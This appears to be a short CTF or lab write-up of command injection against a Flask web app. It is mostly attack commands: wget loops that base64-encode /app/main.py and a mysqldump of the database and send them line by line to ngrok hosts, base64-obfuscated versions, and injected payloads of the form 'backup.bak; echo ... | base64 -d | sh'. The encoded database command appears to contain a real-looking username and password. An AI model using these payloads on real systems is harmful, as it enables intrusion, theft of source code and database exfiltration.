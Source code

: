 ```
cat /app/main.py | base64  | while read line; do wget "http://0b0e-41-74-120-172.ngrok-free.app/${line}"; done
```

```
Y2F0IC9hcHAvaGVsbG8ucHkgfCBiYXNlNjQgIHwgd2hpbGUgcmVhZCBsaW5lOyBkbyB3Z2V0ICJodHRwOi8vMGIwZS00MS03NC0xMjAtMTcyLm5ncm9rLWZyZWUuYXBwLyR7bGluZX0iOyBkb25l
```

```
backup.bak; echo Y2F0IC9hcHAvaGVsbG8ucHkgfCBiYXNlNjQgIHwgd2hpbGUgcmVhZCBsaW5lOyBkbyB3Z2V0ICJodHRwOi8vMGIwZS00MS03NC0xMjAtMTcyLm5ncm9rLWZyZWUuYXBwLyR7bGluZX0iOyBkb25l | base64 -d | sh
```

![image](https://hackmd.io/_uploads/rySjZC1-ke.png)


```
sed -n 's/.*GET \([^ ]*\) - .*/\1/p' main.log | tr -d '\n' | tr -d '/' | sed 's/ /\\n/g' | base64 -d > main.py
```
Exifiltrated `main.py`

```
from flask import Flask
from flask import request,render_template,redirect,session,url_for,flash,make_response,abort
import sqlite3
from functools import wraps
import hashlib
import os
import subprocess
from flask_mysqldb import MySQL
import re

app = Flask(__name__)

app.config['MYSQL_HOST'] = '[REDACTED]'
app.config['MYSQL_USER'] = '[REDACTED]'
app.config['MYSQL_PASSWORD'] = '[REDACTED]'
app.config['MYSQL_DB'] = '[REDACTED]'

<!---------- SNIP --------------->
    return redirect(url_for('admin'))
```

## Database Exfiltration Techniques

```
mysqldump -h [DB_HOST] -u [DB_USERNAME] -p[DB_PASS] [DB_NAME] | base64  | while read line; do wget "http:///e794-41-74-120-172.ngrok-free.app/${line}"; done%
```
```
bXlzcWxkdW1wIC1oIGRiIC11IGNoYXJiZWwgLXBQQHNzdzByZDEyMzQgZmxhc2sgfCBiYXNlNjQgIHwgd2hpbGUgcmVhZCBsaW5lOyBkbyB3Z2V0ICJodHRwOi8vL2U3OTQtNDEtNzQtMTIwLTE3Mi5uZ3Jvay1mcmVlLmFwcC8ke2xpbmV9IjsgZG9uZQ==
```
```
backup.bak; echo bXlzcWxkdW1wIC1oIGRiIC11IGNoYXJiZWwgLXBQQHNzdzByZDEyMzQgZmxhc2sgfCBiYXNlNjQgIHwgd2hpbGUgcmVhZCBsaW5lOyBkbyB3Z2V0ICJodHRwOi8vL2U3OTQtNDEtNzQtMTIwLTE3Mi5uZ3Jvay1mcmVlLmFwcC8ke2xpbmV9IjsgZG9uZQ== | base64 -d | sh
```

![image](https://hackmd.io/_uploads/rJR19Jxb1e.png)

![image](https://hackmd.io/_uploads/BkQC9Jx-ye.png)


![image](https://hackmd.io/_uploads/r1-nY1lbJl.png)
